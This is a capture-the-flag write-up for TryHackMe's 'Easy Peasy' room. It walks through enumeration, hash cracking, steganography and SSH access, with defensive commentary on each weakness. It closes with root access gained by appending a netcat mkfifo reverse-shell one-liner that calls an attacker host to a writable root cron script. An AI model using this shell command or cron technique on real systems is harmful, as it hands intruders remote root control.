# Easy Peasy Writeup

**Machine Name:** Easy Peasy  
**Platform:** TryHackMe  
**Difficulty:** Easy

---


## Introduction

Easy Peasy isn't a single exploit chain so much as a scavenger hunt. Two web services sit behind default-looking landing pages, and each one hides a trail of encoded strings, crackable hashes, and a steganography puzzle that eventually hands over a working SSH login. From there it closes with a textbook privilege escalation: a root-owned cron job calling a script a low-privileged user is allowed to edit.

There's no flashy CVE in this room. Most of the work is just enumerating past the default pages and being willing to decode one more layer than feels reasonable.

## Phase 1: Enumeration

Started with a full TCP port scan against the target.

> nmap -p- -sV -sC <TARGET_IP>

Three ports came back open:

```
PORT      SERVICE VERSION
80/tcp    http    nginx 1.16.1
6498/tcp  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
65524/tcp http    Apache httpd 2.4.43 (Ubuntu)
```

Both web ports answered with stock landing pages rather than a real application: port 80 served the default nginx welcome page, and port 65524 served the default Apache2 Debian "It works" page.




Neither looked like an actual site, so the next step was obvious: dig under the default pages.

## Phase 2: Port 80 and a Trail of Decoy Pages

A directory scan against port 80 turned up nothing but `robots.txt`.



It was a dead end by design: a blanket disallow and a one-line troll.



Gobuster with a bigger wordlist did better than dirsearch's default list and surfaced a `/hidden` directory.



`/hidden` turned out to be a decoy: just a background image, nothing else on the page.



Running gobuster again, scoped to `/hidden/`, found a second nested path: `/hidden/whatever/`.



Same trick as its parent: a stock photo with a "dead end" page title.


> **Security Issue #1:** Secrets Hidden Behind Guessable Paths. Every "hidden" directory in this chain (`/hidden`, `/hidden/whatever/`, and more found later) fell to an off-the-shelf wordlist. Naming something obscurely isn't access control. Anything not meant to be public needs real authentication, not just an unlisted path.

The page wasn't quite empty, though. Viewing the source of `/whatever/` showed a hidden `<p>` element carrying a Base64 string.



Decoding it produced the first flag.



> **Flag 1:** `<REDACTED>`

## Phase 3: Port 65524 and a Riddle in robots.txt

A directory scan against port 65524 mostly returned 403s for guessed backup and config filenames, but it also confirmed a reachable `robots.txt`.



This one wasn't a troll, it was a riddle. Alongside the usual disallow-all block sat a second `User-Agent` line that was actually an MD5 hash, paired with a taunt about only that "flag" being allowed in.



`john` came back empty against both `raw-md5` and `raw-md4` with rockyou.



An online hash lookup did what the offline wordlist attack couldn't, reversing the hash straight back to the second flag.



> **Flag 2:** `<REDACTED>`

> **Security Issue #2:** Weak, Unsalted Hashes Protecting Secrets. Both this hash and the one found later in the chain were plain MD5/GOST digests with no salt. Once a hash like that is sitting in a public lookup database, it isn't really protecting anything anymore.

## Phase 4: A Flag Hidden in Plain Sight

The Apache default page on port 65524 looked like unmodified boilerplate at first glance. But one bullet point in the middle of the standard Debian configuration text had been quietly edited to slip in a third flag.



> **Flag 3:** `<REDACTED>`

## Phase 5: Encoding, Hashing, and a Steganography Rabbit Hole

The page source of that same default page hid another element, this time flagged as encoded, though not quite in the format it first looked like.



A straight Base64 decode came out as garbage.



CyberChef and some trial and error with different base encodings sorted it out: Base62. Decoding it revealed a new path, `/n0th1ng3ls3m4tt3r`.



That path led to a Matrix-themed page built around a binary-code image.


Its page source held two things: a reference to the background image, and another hash, this one flagged as GOST.



`john --format=gost` against rockyou found nothing.



An online GOST lookup cracked it. This one wasn't a flag, it turned out to be a passphrase.



That passphrase was the missing piece for the image referenced in the page source. Downloading it and running `steghide extract` with the cracked passphrase pulled a hidden file straight out of the JPEG.



The extracted file held a set of login credentials: a username in plaintext, and a password encoded in binary.



> **Security Issue #3:** Credentials Stored in Recoverable Formats. A password hidden in an image is only as safe as the passphrase protecting it, and that passphrase was itself one crackable hash away from public. Stacking encodings and hiding techniques doesn't add real security if every layer can be undone with a free online tool.

A short Python one-liner converted the binary string back to readable text and exposed the working password.




> **Credentials recovered:** username `boring`, password `<REDACTED>`

## Phase 6: SSH Access and the User Flag

The initial nmap scan had already flagged SSH on the non-standard port 6498. The recovered credentials logged straight in.



`user.txt` was sitting in the home directory, but the flag inside had visibly been rotated. The file even said as much.



Running it through a ROT13 decoder recovered the fourth flag.



> **Flag 4:** `<REDACTED>`

## Phase 7: Privilege Escalation via a Root Cron Job

`/etc/crontab` is world-readable by default, so that's the first place to check for privesc ideas. One entry stood out: a job running every minute, as root, executing a script inside `/var/www/`.



Checking that script's permissions showed it was owned by `boring`, the same low-privileged account already in use over SSH, and writable by that owner.



A root-run script that a non-root user can edit is about as direct a privesc path as it gets. A reverse shell one-liner was generated and appended to the script.




> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> > /tmp/f

With a listener already running, the cron job fired within a minute and the callback landed as root.

